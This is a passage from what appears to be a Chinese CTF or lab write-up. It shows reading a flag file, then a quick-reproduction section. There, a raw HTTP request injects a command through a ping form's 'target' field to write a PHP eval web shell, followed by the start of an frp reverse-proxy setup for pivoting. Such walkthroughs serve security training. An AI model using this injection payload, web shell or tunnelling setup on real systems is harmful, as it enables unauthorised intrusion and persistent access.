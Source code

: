 ```bash
cd /
ls
cd flag
shell type flag.txt
```

![image-20241125175732208](https://image.201068.xyz/assets/writeup/image-20241125175732208.png)

![image-20241125175824381](https://image.201068.xyz/assets/writeup/image-20241125175824381.png)

> A49Q2Ds5w3

# 快速复现

## 1.web服务器：命令执行

```bash
POST /admin/Ping/index HTTP/1.1
Host: 192.168.28.1
Content-Length: 22
Cache-Control: max-age=0
Origin: http://192.168.28.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.28.1/admin/ping/index/menuid/116
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0; PHPSESSID=qvm6qse1pk82ss55a83ho5a5b5; thinkphp_show_page_trace=0|0
Connection: keep-alive

target=1;echo '<?php @eval($_POST["xxx"]);?>' > xxx.php
```

## 2.搭建代理

### 1.上传linux版frps到模拟云服务器

```bash
[common]
bind_port = 7000
```



```bash
cd /root/frp;chmod +x frps;./frps -c frps.ini
```

